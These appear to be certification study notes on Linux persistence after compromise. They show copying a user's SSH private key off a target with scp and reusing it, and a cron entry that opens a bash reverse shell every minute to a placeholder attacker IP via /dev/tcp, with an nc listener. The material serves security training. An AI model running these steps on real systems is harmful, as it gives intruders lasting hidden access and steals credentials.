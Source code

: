 # 56 Linux Persistence

# Persistence via SSH Keys

- Linux is typically deployed as a server operating system and as a result, Linux servers are typically accessed remotely via services/protocols such as SSH.
- If SSH is enabled and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
- In most cases Linux servers will have key-based authentication enabled for the SSH service, allowing users to access the Linux system remotely without the need for a password.
- After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all future authentication and access.

### DEMO

```shell
# Private key
/.ssh/id_rsa

# Download id_rsa file from target to our system via SSH
scp user@ip:<path-to-id_rsa> .
# Give the permission
chmod 400 id_rsa
# Connect with the private key obtained
ssh -i id_rsa <user>@<ip>

# Typically create new key pairs and then copy in the target system
# Copy the public keys in authorized_keys in target system
```


# Persistence via Cron Jobs

- Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.
- An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job.
- We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

## Anatomy of a Cron Job

```
*     *     *     *     *       Command to execute
│     │     │     │     │
│     │     │     │     └────── day of week (0 - 7) (Sunday = 0 or 7)
│     │     │     └──────────── month (1 - 12)
│     │     └────────────────── day of month (1 - 31)
│     └──────────────────────── hour (0 - 23)
└────────────────────────────── minute (0 - 59)

* * * * * Means that the cron job will run every minute of every hour of every day of every month and every day of the week
```

### DEMO

```shell
# Cron tab file
cat /etc/cron*

# Create new Cron file for get reverse shell
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'" > cron
# Add the new Cron to Cron Job
crontab -i cron
# View the Cron Job
crontab -l

# Setup the listerner
nc -nvlp <port>
```


#cybersecurity #eJPT 